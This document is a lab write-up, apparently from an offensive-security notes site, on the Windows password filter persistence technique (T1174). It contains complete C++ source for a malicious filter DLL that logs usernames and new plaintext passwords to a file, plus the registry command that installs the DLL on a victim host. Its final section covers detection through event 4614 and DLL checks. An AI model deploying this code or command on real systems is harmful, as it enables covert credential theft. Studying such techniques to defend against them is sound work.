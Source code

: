 ```yaml
---
description: Credential Access
---
```


# T1174: Password Filter

This lab explores a native OS notification of when the user account password gets changed, which is responsible for validating it. That, of course means, that the password can be intercepted and logged.

## Execution

Password filters are registered in registry and we can see them here:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
reg query "hklm\system\currentcontrolset\control\lsa" /v "notification packages"
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Or via regedit:

![](../.gitbook/assets/password-filter-regedit.png)

Building an evil filter DLL based on a great [article](http://carnal0wnage.attackresearch.com/2013/09/stealing-passwords-every-time-they.html) by mubix. He has also kindly provided the code to use, which I modified slightly to make sure that the critical DLL functions were exported correctly in order for this technique to work, since mubix's code did not work for me out of the box. I also had to change the logging statements in order to rectify a couple of compiler issues:

```cpp
#include "stdafx.h"
#include <windows.h>
#include <stdio.h>
#include <WinInet.h>
#include <ntsecapi.h>
#include <stdio.h>
#include <iostream>
#include <fstream>
using namespace std;

void writeToLog(const char* szString)
{
	FILE *pFile;
	fopen_s(&pFile, "c:\\logFile.txt", "a+");

	if (NULL == pFile)
	{
		return;
	}
	fprintf(pFile, "%s\r\n", szString);
	fclose(pFile);
	return;

}

extern "C" __declspec(dllexport) BOOLEAN __stdcall InitializeChangeNotify(void)
{
	OutputDebugString(L"InitializeChangeNotify");
	writeToLog("InitializeChangeNotify()");
	return TRUE;
}

extern "C" __declspec(dllexport) BOOLEAN __stdcall PasswordFilter(
	PUNICODE_STRING AccountName,
	PUNICODE_STRING FullName,
	PUNICODE_STRING Password,
	BOOLEAN SetOperation)
{
	OutputDebugString(L"PasswordFilter");
	return TRUE;
}

extern "C" __declspec(dllexport) NTSTATUS __stdcall PasswordChangeNotify(
	PUNICODE_STRING UserName,
	ULONG RelativeId,
	PUNICODE_STRING NewPassword)
{
	FILE *pFile;
	fopen_s(&pFile, "c:\\logFile.txt", "a+");

	OutputDebugString(L"PasswordChangeNotify");
	if (NULL == pFile)
	{
		return true;
	}
	fprintf(pFile, "%ws:%ws\r\n", UserName->Buffer, NewPassword->Buffer);
	fclose(pFile);
	return 0;
}
```

{% file src="../.gitbook/assets/evilpwfilter.dll" caption="Password Filter DLL" %}

Injecting the evil password filter into the victim system:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
reg add "hklm\system\currentcontrolset\control\lsa" /v "notification packages" /d scecli\0evilpwfilter /t reg_multi_sz

Value notification packages exists, overwrite(Yes/No)? yes
The operation completed successfully.
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/password-filter-updating-registry.png)

Testing password changes after the reboot - note how the password changes are getting logged:

![](../.gitbook/assets/password-filter-filter-working.png)

## Observations

Windows event `4614` notifies about new packages loaded by the SAM:

![](../.gitbook/assets/password-filter-log1.png)

Logging command line can also help in detecting this activity:

![](../.gitbook/assets/password-filter-cmdline.png)

...especially, if the package has just been recently dropped to disk:

![](../.gitbook/assets/password-filter-createdtime.png)

Also, it may be worth considering checking new DLLs dropped to `%systemroot%\system32` for exported `PasswordChangeNotify`function:

![](../.gitbook/assets/password-filter.png)

## References

{% embed url="http://carnal0wnage.attackresearch.com/2013/09/stealing-passwords-every-time-they.html" %}

{% embed url="https://attack.mitre.org/wiki/Technique/T1174" %}

